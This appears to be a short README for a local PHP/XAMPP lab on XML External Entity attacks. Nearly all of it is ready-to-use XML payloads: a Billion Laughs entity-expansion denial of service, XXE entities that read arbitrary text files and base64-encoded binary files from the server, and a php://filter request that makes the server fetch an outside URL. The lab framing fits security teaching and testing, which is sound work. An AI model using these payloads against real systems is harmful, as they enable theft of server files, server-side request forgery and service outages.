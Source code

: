 Run the php file in a XAMPP instance. Then issue queries to the server with these XMLs included (only one XML per query, so one example per query).

Billion Laughs attack:

```
<?xml version="1.0" encoding="ISO-8859-1"?> 
<!DOCTYPE foo [
  <!ELEMENT foo ANY>
  <!ENTITY bar "World ">
  <!ENTITY t1 "&bar;&bar;&bar;&bar;&bar;&bar;">
  <!ENTITY t2 "&t1;&t1;&t1;&t1;&t1;&t1;&t1;&t1;&t1;&t1;&t1;&t1;&t1;&t1;&t1;&t1;">
  <!ENTITY t3 "&t2;&t2;&t2;&t2;&t2;">
]>
<creds>
  <user>Hello &t2;</user>
  <pass>mypass</pass>
</creds>
```

Retrieve a non-binary file from the server's machine:
```
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [ <!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "file:///[ABSOLUTE PATH TO THE FILE]" >]>
<creds>
    <user>&xxe;</user>
    <pass>mypass</pass>
</creds>
```

Retrieve a binary file from the server's machine (Base64 encoded):
```
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
  <!ELEMENT foo ANY>
  <!ENTITY xxe SYSTEM
  "php://filter/read=convert.base64-encode/resource=file:///[ABSOLUTE PATH TO THE FILE]">
]>
<creds>
    <user>&xxe;</user>
    <pass>mypass</pass>
</creds>
```

Get the result of a request made by the server to a website (Base64 encoded):
```
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
  <!ELEMENT foo ANY>
  <!ENTITY xxe SYSTEM
  "php://filter/read=convert.base64-encode/resource=http://google.de/">
]>
<creds>
    <user>&xxe;</user>
    <pass>mypass</pass>
</creds>
```